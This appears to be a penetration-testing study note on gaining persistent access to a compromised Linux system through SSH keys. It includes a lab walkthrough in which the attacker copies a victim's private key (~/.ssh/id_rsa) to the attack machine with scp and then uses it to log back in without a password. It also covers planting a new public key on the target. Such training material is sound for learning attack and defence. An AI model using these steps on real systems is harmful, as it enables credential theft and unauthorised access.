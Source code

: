 # Linux Persistence

## Contents
- []()
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## Persistence Via SSH Keys

### How SSH Works & How it Can Be Used for Persistence
- Linux is typically deployed as a server operating system and as a result Linux servers are typically accessed remotely via services (protocols) like SSH.
- If SSH is enabled and running on a Linux system that you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.
- In most cases Linux servers will have key-based authentication enabled for the SSH service.
  - This allows the users to access the Linux system remotely without the need for a password.
- After gaining access to a Linux system, we can transfer the SSH private key of a specific user account to our system and then use that SSH private key for all future authentication and access.
  - **_The essential step in all of this is finding the private key on the target system_.**
- You could also generate a new public/private key pair, transfer the public key to the target Linux system, and use the private key to login. 

### Generating SSH Keys
```
ssh-keygen -t rsa -C "add any comment to label your key here"
```
- `-t rsa` : sets the type of algorithm to rsa
- `-C` : optional to add a short comment to "label" your key pair

### Key Pair
1. `id_rsa` : private key
2. `id_rsa.pub` : public key

### Example
> The follow is from a lab. It shows the general process, commands, and techniques that can be replicated on other similar systems.

#### Initial Access
- We have gained access to a target Linux system via creds. Therefore we can login via ssh.
```
ssh compromised_username@[target ip]
```

#### Copy the id_rsa File
- We want to copy the `id_rsa` file from the compromised target account onto our attack system.
- Exit the target. Back in your attack machine, use the secure copy command: `scp`
  - scp copies files between hosts on a network.
  - It uses ssh for data transfer, and uses the same authentication and provides the same security as ssh.
```
# General Syntax:
[user]@[host1 or ip address]:/path/to/file-to-copy /path/to/local/copy-target
# Example: 
scp Syntax: scp compromised_username@[target ip]:~/.ssh/id_rsa .
```
- Once that copies to your local (attack) machine, you need to change the perms to what is expected of a private key
```
chmod 400 id_rsa      # this is required; ssh will pitch a fit if you don't
```
- Now you can use this private key to log into the target system via ssh.

#### Persistence
- Login with the ssh private key:
```
ssh -i id_rsa compromised_username@[target ip]
```
- `-i` : identity_file - Selects a file from which the identity (private key) for RSA or DSA authentication is read.
  - The default for ssh protocol version 1 is `~/.ssh/identity`
  - The default for ssh protocol version 2 is `~/.ssh/id_rsa` and `~/.ssh/id_dsa`
- That should log you onto the system without providing a password
